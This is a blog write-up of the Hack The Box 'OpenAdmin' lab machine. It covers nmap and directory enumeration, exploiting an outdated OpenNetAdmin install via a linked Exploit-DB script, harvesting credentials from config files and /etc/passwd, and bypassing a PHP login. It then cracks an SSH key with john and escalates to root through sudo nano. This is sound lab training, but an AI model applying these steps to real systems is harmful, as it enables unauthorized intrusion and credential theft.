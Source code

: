 ```yaml
---
title: "HTB - OpenAdmin without MetaSploit"
date: 2021-02-08T12:42:29+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/OpenAdmin.png"
aliases:
  - /htb-openadmin-without-metasploit/
  - /htb-openadmin/
---
```

## Box

[HTB - OpenAdmin](https://app.hackthebox.eu/machines/222)

## Intro
The importance to also patch your "applications", and not just your services.

## Recon

Again, this is an HTB box, so recon is mainly active, and I feel like active recon == enum.

Still, we can check : 

* Name of the box : OpenAdmin ;
* OS "type", : Linux :
* Hints given on HTB website, information section :

![](/images/2021/02/2021-02-08_12-13.png)

## Enum

As always, we start with an nmap scan :

```text
sudo nmap -T4 -A -p- $target_ip
```

```text
# Nmap 7.91 scan initiated Thu Jan 28 15:27:52 2021 as: nmap -T4 -A -p- -oA HTB/OpenAdmin/nmap $target_ip
Nmap scan report for $target_ip
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/28%OT=22%CT=1%CU=33687%PV=Y%DS=2%DC=T%G=Y%TM=6012CA1
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T5(R=N)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T7(R=N)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   22.95 ms 10.10.14.1
2   24.65 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 15:28:39 2021 -- 1 IP address (1 host up) scanned in 47.14 seconds

```

We find 2 services : ssh and Apache, both on standard ports. I like to check `searchsploit` for every service + version I find, in order to see if there any big vulnerability. In general, SSH isn't something that I"ll try to attack right away. It is more of a "last chance" path, with brute force.

In our case, we found a web server running Apache, but th version doesn't seem vulnerable. So, let's fire `nikto` and `dirbuster` :

```text
nikto -h http://$target_ip
```

And dirbuster like so :

![](/images/2021/02/2021-02-08_11-28.png)

Dirbuster, will find an interesting dir "ona", browsing to this resource we discovered it is running OpenNetAdmin version 18.1.1 which is outdated and probably vulnerable...

![](/images/2021/02/ONA.png)

Indeed, after a quick search, we discover that it is vulnerable to Remote Code Execution (RCE), one of the most dangerous vuln we could find. Awesome!

## Exploitation

The vuln in question can be found here : [https://www.exploit-db.com/exploits/47691](https://www.exploit-db.com/exploits/47691) it is a simple Python script that will grant you a shell access on the remote machine.

Unfortunately, this shell only runs as `www-data`, the default `Apache` user and with `/sbin/nologin` shell. Still, we can still look around. I usually check what files I have access to :

```text
find / -xdev -type f -user $current_user
```

 Let's check who was access to sudo :

```text
ls -lhtrR /etc/sudo*
```

I also like to check what users are on the system and see if I can access some files inside their home's folders :

```text
cat /etc/passwd && ls -lhtrR /home/
```

And of course in our case, explore the web root folders.

Doing so, we discover two users : `joanna` and `jimmy` and an interesting set of credentials inside `/var/www/html/local/ona/config`.

It happens that the password from this file is actually jimmy's account SSH password. We now have a real bash shell, in a real terminal, with bash completion, hurray!

Once again, we check for common stuff, like what files do we own, and sudo rights :

```text
sudo -l
```

So, no sudo rights for us, however, we discover a new website that only runs on localhost. This website is very important, as we can see that, once logged as Jimmy, it will send us the SSH private key of Joanna.

I decided to create an SSH tunnel :

```text
ssh -L 52846:127.0.0.1:52846 -N -f jimmy@$target_ip
```

And to modify the login page in order to get rid of authentication :

```text
<?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

becomes :

```text
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && $_POST['password'] == 'plop') {
            //  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

We can now browse to 127.0.0.1:52846 and log in with `jimmy` // `plop`.

And bingo! We got Joanna's key with an extra tip :

> Don't forget your "ninja" password

Of course, Joanna-s key is encrypted... We save it as id_joanna and hash it :

```text
python /usr/share/john/ssh2john.py id_joanna > joanna.hash
```

Now that we have the hashed version, time to crask it :

```text
john -wordlist=/usr/share/wordlists/rockyou.txt joanna.hash 
```

We finally, have joanna's ssh key password, we can now connect to the server as her!

### PrivEsc

As usual, we do all our basic checks. Doing so, we will notice :

* We have access to user.txt flag ;
* We have access to `sudo /bin/nano /opt/priv` without password.

Accessing root password which is always located in `/root/root.txt` is a simple matter of running `nano` as root (with `sudo`) and entering command mode with `^R` + `^X` to `cat` the flag file).

We now got `root.txt`!

## Outro

As we have just seen, one can obtain root access to a machine via "third party" application while the rest of the system is up to date. So, make sure to keep everything updated!
